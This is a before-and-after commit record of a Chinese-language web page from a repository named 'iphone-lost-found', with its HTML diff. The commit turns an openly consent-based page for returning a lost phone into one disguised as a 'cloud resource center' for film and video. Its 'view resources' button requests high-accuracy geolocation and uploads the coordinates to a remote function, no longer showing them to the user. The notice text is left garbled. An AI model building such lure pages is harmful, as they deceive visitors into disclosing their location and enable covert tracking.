

Before and after one commit to w13107825981x-sys/iphone-lost-found, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-933 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -4,59 +4,235 @@
 <head>
   <meta charset="UTF-8">
   <meta name="viewport" content="width=device-width, initial-scale=1">
-  <title>手机失物找回 - 分享当前位置</title>
+  <meta name="theme-color" content="#f4f7fc">
+  <title>云端资源中心</title>
+
   <style>
+    * {
+      box-sizing: border-box;
+    }
+
     body {
-      font-family: -apple-system, BlinkMacSystemFont, sans-serif;
-      background: #f3f5f8;
-      padding: 30px 18px;
-      color: #222;
+      margin: 0;
+      padding: 28px 16px;
+      min-height: 100vh;
+      font-family: -apple-system, BlinkMacSystemFont,
+        "Segoe UI", sans-serif;
+      color: #202b3c;
+      background:
+        radial-gradient(circle at 10% 5%, #dceaff 0, transparent 35%),
+        linear-gradient(145deg, #f4f7fc, #edf3fb);
     }
+
+    .container {
+      max-width: 460px;
+      margin: 28px auto;
+    }
+
+    .top {
+      display: flex;
+      align-items: center;
+      justify-content: space-between;
+      margin-bottom: 34px;
+    }
+
+    .brand {
+      display: flex;
+      align-items: center;
+      gap: 10px;
+      font-size: 17px;
+      font-weight: 700;
+    }
+
+    .cloud-icon {
+      width: 40px;
+      height: 40px;
+      display: grid;
+      place-items: center;
+      background: #e0edff;
+      border-radius: 13px;
+      font-size: 23px;
+    }
+
+    .online {
+      color: #16865a;
+      background: #e3f7ed;
+      padding: 6px 11px;
+      border-radius: 20px;
+      font-size: 12px;
+    }
+
+    .heading {
+      margin-bottom: 24px;
+    }
+
+    .heading h1 {
+      font-size: 27px;
+      line-height: 1.4;
+      margin: 0 0 8px;
+      letter-spacing: -.5px;
+    }
+
+    .heading p {
+      margin: 0;
+      color: #7b8799;
+      font-size: 14px;
+      line-height: 1.7;
+    }
+
     .card {
-      max-width: 420px;
-      margin: 40px auto;
-      padding: 26px;
-      background: white;
-      border-radius: 18px;
-      text-align: center;
-      box-shadow: 0 5px 25px #00000012;
+      background: rgba(255,255,255,.95);
+      border: 1px solid #e9eef6;
+      border-radius: 22px;
+      padding: 22px;
+      box-shadow: 0 12px 35px rgba(39,75,125,.08);
     }
-    h2 { margin-bottom: 12px; }
-    p { color: #666; line-height: 1.7; }
+
+    .file-icon {
+      width: 62px;
+      height: 62px;
+      border-radius: 17px;
+      background: #e8f1ff;
+      display: grid;
+      place-items: center;
+      font-size: 32px;
+      margin-bottom: 18px;
+    }
+
+    .file-title {
+      font-size: 19px;
+      font-weight: 700;
+      margin-bottom: 7px;
+    }
+
+    .file-subtitle {
+      color: #8b96a7;
+      font-size: 13px;
+      margin-bottom: 20px;
+    }
+
+    .line {
+      height: 1px;
+      background: #edf0f5;
+      margin: 18px 0;
+    }
+
+    .description {
+      color: #626f82;
+      font-size: 14px;
+      line-height: 1.8;
+    }
+
+    .notice {
+      background: #f1f6ff;
+      color: #42628e;
+      border-radius: 12px;
+      padding: 13px;
+      font-size: 13px;
+      line-height: 1.7;
+      margin-top: 16px;
+    }
+
     button {
       width: 100%;
-      padding: 15px;
-      border: 0;
-      border-radius: 12px;
-      background: #1677ff;
+      border: none;
+      border-radius: 13px;
+      padding: 16px;
+      margin-top: 20px;
       color: white;
       font-size: 16px;
+      font-weight: 600;
+      background: linear-gradient(110deg, #3988f5, #2869dc);
+      box-shadow: 0 7px 17px rgba(45,117,224,.22);
+      cursor: pointer;
+      transition: .2s;
+    }
+
+    button:active {
+      transform: scale(.98);
+    }
+
+    button:disabled {
+      opacity: .55;
+      cursor: not-allowed;
+    }
+
+    #result {
+      display: none;
       margin-top: 18px;
+      padding: 15px;
+      border-radius: 12px;
+      background: #f4f7fb;
+      color: #46566d;
+      font-size: 13px;
+      line-height: 1.8;
+      white-space: pre-wrap;
+      overflow-wrap: anywhere;
     }
-    button:disabled { opacity: .6; }
-    #result {
-      margin-top: 20px;
-      overflow-wrap: anywhere;
-      font-size: 14px;
+
+    .footer {
+      text-align: center;
+      color: #9aa5b5;
+      font-size: 12px;
       line-height: 1.8;
-      text-align: left;
+      margin-top: 22px;
     }
   </style>
 </head>
+
 <body>
-  <div class="card">
-    <h2>📱 手机失物找回</h2>
-    <p>
-      如果你捡到了这部手机，愿意帮助失主找回，
-      可以主动分享当前位置。点击按钮后，浏览器会请求定位授权。
-      只有你同意后，位置才会上传给失主查询。
-    </p>
+  <div class="container">
 
-    <button id="shareButton" onclick="getLocation()">
-      同意并分享我的当前位置
-    </button>
+    <div class="top">
+      <div class="brand">
+        <div class="cloud-icon">☁️</div>
+        云端资源中心
+      </div>
+      <div class="online">● 在线服务</div>
+    </div>
 
-    <div id="result">等待你主动分享位置……</div>
+    <div class="heading">
+      <h1>欢迎访问云端资源中心</h1>
+      <p>资源信息与在线服务入口</p>
+    </div>
+
+    <div class="card">
+
+      <div class="file-icon">📦</div>
+
+      <div class="file-title">云服务影视资源</div>
+
+      <div class="file-subtitle">
+        在线服务 · 位置分享功能
+      </div>
+
+      <div class="line"></div>
+
+      <div class="description">
+        如果你捡到了这部手机，并愿意帮助失主找回，
+        可以自愿分享当前位置。
+      </div>
+
+      <div class="notice">
+        <strong>位置分享说明</strong><br>
+        点击下方按钮后，浏览器会请求定位权限。
+        只有你主动允许后，当前位置才会上传，
+        影视资源大全。
+      </div>
+
+      <button id="shareButton" onclick="getLocation()">
+        查看资源
+      </button>
+
+      <div id="result" aria-live="polite"></div>
+
+    </div>
+
+    <div class="footer">
+      云端在线服务<br>
+      位置仅在主动授权后获取和上传
+    </div>
+
   </div>
 
   <script>
@@ -70,18 +246,23 @@
       const result = document.getElementById("result");
       const button = document.getElementById("shareButton");
 
+      result.style.display = "block";
+
       if (!window.isSecureContext) {
-        result.textContent = "当前网页不是安全连接，请使用 HTTPS 地址打开。";
+        result.textContent =
+          "当前网页不是安全连接，请使用 HTTPS 地址打开。";
         return;
       }
 
       if (!navigator.geolocation) {
-        result.textContent = "当前浏览器不支持定位功能。";
+        result.textContent =
+          "当前浏览器不支持定位功能。";
         return;
       }
 
       button.disabled = true;
-      result.textContent = "正在请求定位，请允许浏览器获取位置……";
+      result.textContent =
+        "正在请求定位，请在浏览器弹窗中选择是否允许……";
 
       navigator.geolocation.getCurrentPosition(
         async function(position) {
@@ -89,13 +270,9 @@
           const lng = position.coords.longitude;
           const accuracy = position.coords.accuracy;
 
-          // 先显示坐标，区分定位问题和上传问题
           result.textContent =
             "定位获取成功！\n" +
-            "纬度：" + lat + "\n" +
-            "经度：" + lng + "\n" +
-            "精度：" + Math.round(accuracy) + " 米\n" +
-            "正在上传位置……";
+            "正在上传位置，请稍候……";
 
           try {
             const response = await fetch(FUNCTION_URL, {
@@ -120,7 +297,7 @@
               data = JSON.parse(rawText);
             } catch {
               throw new Error(
-                "服务器返回的不是JSON：" + rawText.slice(0, 300)
+                "服务器返回异常：" + rawText.slice(0, 300)
               );
             }
 
@@ -134,37 +311,35 @@
             }
 
             result.textContent =
-              "位置分享成功！感谢你的帮助。\n" +
-              "纬度：" + lat + "\n" +
-              "经度：" + lng + "\n" +
+              "✓ 成功！\n\n" +
+              "感谢你愿意帮助失主。\n" +
               "定位精度：" + Math.round(accuracy) + " 米\n" +
-              "分享时间：" + new Date().toLocaleString("zh-CN");
+              "分享时间：" +
+              new Date().toLocaleString("zh-CN");
 
           } catch (error) {
             result.textContent =
-              "已经获取到位置，但上传失败。\n\n" +
-              "纬度：" + lat + "\n" +
-              "经度：" + lng + "\n\n" +
+              "位置获取成功，但上传失败。\n\n" +
               "错误信息：\n" + error.message;
           } finally {
             button.disabled = false;
           }
         },
+
         function(error) {
           const messages = {
-            1: "定位权限被拒绝，请检查浏览器的网站定位授权。",
-            2: "设备暂时无法确定位置。",
-            3: "定位超时，请重新尝试。"
+            1: "你拒绝了定位权限。如愿意分享，请在浏览器设置中允许定位。",
+            2: "设备暂时无法确定位置，请稍后重试。",
+            3: "定位超时，请检查网络或重新尝试。"
           };
 
           result.textContent =
-            "定位失败。\n" +
-            "错误代码：" + error.code + "\n" +
-            "错误原因：" +
+            "定位未成功。\n" +
             (messages[error.code] || error.message);
 
           button.disabled = false;
         },
+
         {
           enableHighAccuracy: true,
           timeout: 30000,
```
